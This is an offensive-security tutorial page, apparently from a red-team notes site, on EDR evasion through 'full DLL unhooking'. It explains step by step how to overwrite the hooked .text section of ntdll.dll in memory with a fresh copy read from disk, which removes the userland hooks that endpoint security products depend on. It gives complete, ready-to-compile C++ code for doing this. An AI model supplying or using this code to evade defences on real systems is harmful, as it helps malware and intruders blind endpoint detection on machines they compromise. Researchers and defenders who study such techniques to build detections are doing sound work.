 ```yaml
---
description: EDR evasion
---
```


# Full DLL Unhooking with C++

It's possible to completely unhook any given DLL loaded in memory, by reading the .text section of ntdll.dll from disk and putting it on top of the .text section of the ntdll.dll that is mapped in memory. This may help in evading some EDR solutions that rely on userland API hooking.

## Overview

The process for unhooking a DLL is as follows. Let's assume that the  ntdll.dll is hooked and here is how we could unhook it:

1. Map a fresh copy of ntdll.dll from disk to process memory
2. Find virtual address of the .text section of the hooked ntdll.dll
   1. get ntdll.dll base address
   2. module base address + module's .text section VirtualAddress
3. Find virtual address of the .text section of the freshly mapped ntdll.dll
4. Get original memory protections of the hooked module's .text section
5. Copy .text section from the freshly mapped dll to the virtual address (found in step 3) of the original (hooked) ntdll.dll - this is the meat of the unhooking as all hooked bytes get overwritten with fresh ones from the disk
6. Apply original memory protections to the freshly unhooked .text section of the original ntdll.dll

Below is a simplified graph, illustrating the core concept of the technique, where a hooked .text section of ntdll.dll is replaced with a clean copy of .text section of ntdll.dll from disk:

![](<../../.gitbook/assets/image (570).png>)

## Code

Below code fully unhooks the ntdll.dll, although it could be modified to unhook any other DLL.

```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>
#include <winternl.h>
#include <psapi.h>

int main()
{
	HANDLE process = GetCurrentProcess();
	MODULEINFO mi = {};
	HMODULE ntdllModule = GetModuleHandleA("ntdll.dll");

	GetModuleInformation(process, ntdllModule, &mi, sizeof(mi));
	LPVOID ntdllBase = (LPVOID)mi.lpBaseOfDll;
	HANDLE ntdllFile = CreateFileA("c:\\windows\\system32\\ntdll.dll", GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
	HANDLE ntdllMapping = CreateFileMapping(ntdllFile, NULL, PAGE_READONLY | SEC_IMAGE, 0, 0, NULL);
	LPVOID ntdllMappingAddress = MapViewOfFile(ntdllMapping, FILE_MAP_READ, 0, 0, 0);

	PIMAGE_DOS_HEADER hookedDosHeader = (PIMAGE_DOS_HEADER)ntdllBase;
	PIMAGE_NT_HEADERS hookedNtHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)ntdllBase + hookedDosHeader->e_lfanew);

	for (WORD i = 0; i < hookedNtHeader->FileHeader.NumberOfSections; i++) {
		PIMAGE_SECTION_HEADER hookedSectionHeader = (PIMAGE_SECTION_HEADER)((DWORD_PTR)IMAGE_FIRST_SECTION(hookedNtHeader) + ((DWORD_PTR)IMAGE_SIZEOF_SECTION_HEADER * i));

		if (!strcmp((char*)hookedSectionHeader->Name, (char*)".text")) {
			DWORD oldProtection = 0;
			bool isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, PAGE_EXECUTE_READWRITE, &oldProtection);
			memcpy((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), (LPVOID)((DWORD_PTR)ntdllMappingAddress + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize);
			isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, oldProtection, &oldProtection);
		}
	}

	CloseHandle(process);
	CloseHandle(ntdllFile);
	CloseHandle(ntdllMapping);
	FreeLibrary(ntdllModule);

	return 0;
}
```

{% hint style="warning" %}
Note that the above code does not fix image base relocations. Although ntdll.dll does not have anything to be relocated within its .text section, it may be required when dealing with other dlls.

Thanks [@mrgretzky](https://twitter.com/mrgretzky) for highlighting [this](https://twitter.com/mrgretzky/status/1271348438421159936).

See my notes about PE image relocations: [https://ired.team/offensive-security/code-injection-process-injection/process-hollowing-and-pe-image-relocations#relocation](https://ired.team/offensive-security/code-injection-process-injection/process-hollowing-and-pe-image-relocations#relocation)
{% endhint %}
